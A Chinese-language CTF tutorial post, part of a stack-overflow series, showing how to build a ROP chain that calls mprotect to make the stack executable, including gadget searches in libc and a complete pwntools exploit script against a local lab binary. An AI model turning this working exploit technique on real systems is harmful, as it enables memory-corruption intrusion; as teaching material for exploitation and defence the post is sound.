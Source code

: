 ```yaml
---
id: 782
layout: post
title: '二进制安全之栈溢出（七）[未完待续]'
date: 2017-10-26 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


本篇文章会使用一个稍复杂的 gadget，同时解决 gadget 含有换行符带来的问题。

### mprotect

之前使用 `vmmap` 命令的时候会注意到有一列是内存地址的权限，`rwx` 和文件系统的一致，NX 不可执行就是没有 `x` 权限，当然这不是绝对的，使用 `mprotect` 可以修改这个权限，这样的话，就可以在栈上执行 shellcode 了。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

函数原型是 `int mprotect(void *addr, size_t len, int prot);`，`addr` 是内存地址开头，`len` 是长度，`prot` 就是权限位，在 manpage 上有 `PROT_WRITE`、`PROT_EXEC`、`PROT_READ` 等几项，权限是位运算之后的数字，根据宏定义， `rwx` 就是 `0x1 | 0x2 | 0x4`。

需要注意的是 `mprotect` 修改的内存的起始地址必须和内存页对齐，范围也必须是内存页大小的整数倍，否则系统调用会失败，详见 manpage。`getconf PAGESIZE` 可以获取内存页大小，默认是 `4096`。

### ROP 构造 gadget

`mprotecct` 有三个参数，就会使用 `rdi, rsi, rdx` 寄存器。如果想让整个栈区可执行的话，在 `vmmap` 可以获取栈区的开头和结尾地址，那三个寄存器的值就分别是 `0x00007ffffffde000`、`0x00007ffffffff000 - 0x00007ffffffde000` 和 `0x1 | 0x2 | 0x4`。然后在调用 `mproect` 系统系统调用的时候，`rax` 寄存器是系统调用号，`0xa`。所以按照之前的文章，只要能找到下面这些 gadget 就可以了。

```
pop rdi; ret;
pop rsi; ret;
pop rdx; ret;
pop rax; ret;
syscall; ret;
```

但是有些事情总不会太直接，能在二进制文件中只能找到两个 gadget，其中第二个有一个寄存器是没用的，但是并不影响。

```
➜  new ROPgadget --binary vuln | grep "pop rdi"
0x0000000000400803 : pop rdi ; ret

➜  new ROPgadget --binary vuln | grep "pop rsi"
0x0000000000400801 : pop rsi ; pop r15 ; ret
```

这个时候可以去 glibc 中找了。

```
# 这个文件处理比较慢，可以先保存下结果
➜  new ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 > libc.gadget

➜  new grep "pop rdx ; ret" libc.gadget
0x0000000000001b92 : pop rdx ; ret

➜  new grep "pop rax ; ret" libc.gadget
0x0000000000033542 : add al, ch ; pop rax ; ret

➜  new grep "syscall ; ret" libc.gadget
0x00000000000bc375 : syscall ; ret
```

如果已知 glibc 的加载基址，使用基址加上上面的地址就可以了，这个基址目前可以在 `vmmap` 中看到。

### 0xa

如果按照上面的说法直接写 shellcode，会发现栈上的数据并不全，再认真的调试就会发现，shellcode 中含有 `0xa`，也就是 `\n` 的 ascii，因为 shellcode 是 gets 读入的，所以就会在这里被截断。

我选择了先 `pop rax` 为 `0x9`，然后 `add rax, 1； ret` 的 gadget。

```
➜  new grep "add rax, 1 ; ret" libc.gadget
0x00000000000abf40 : add rax, 1 ; ret
```

### shellcode

```python
from pwn import *

student = 0x7fffffffe2f0
shellcode = "1925\n"
cat = asm(shellcraft.amd64.linux.cat("flag"), arch="amd64", os="linux")
shellcode += cat + "A" * (0x7fffffffe348 - student - len(cat))

# pop rdi; ret
shellcode += p64(0x0000000000400803)
# mprotect arg1 addr -> rdi
shellcode += p64(0x00007ffffffde000)

# pop rsi; pop r15; ret;
shellcode += p64(0x0000000000400801)
# mprotect arg2 size -> rsi
shellcode += p64(0x00007ffffffff000 - 0x00007ffffffde000)
# -> r15
shellcode += p64(0)

libc_base = 0x00007ffff7a0d000

# pop rdx; ret;
shellcode += p64(libc_base + 0x0000000000001b92)
# mprotect arg3 rwx -> rdx
shellcode += p64(0x1 | 0x2 | 0x4)

# pop rax; ret
shellcode += p64(libc_base + 0x0000000000033544)
# -> rax
shellcode += p64(0xa - 1)

# add rax, 1; ret
shellcode += p64(libc_base + 0x00000000000abf40)

# syscalll; ret
shellcode += p64(libc_base + 0x00000000000bc375)

# shellcode
shellcode += p64(student)

print shellcode
```

运行后可以看到栈区的内存已经是 `rwx` 的权限了。

```
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

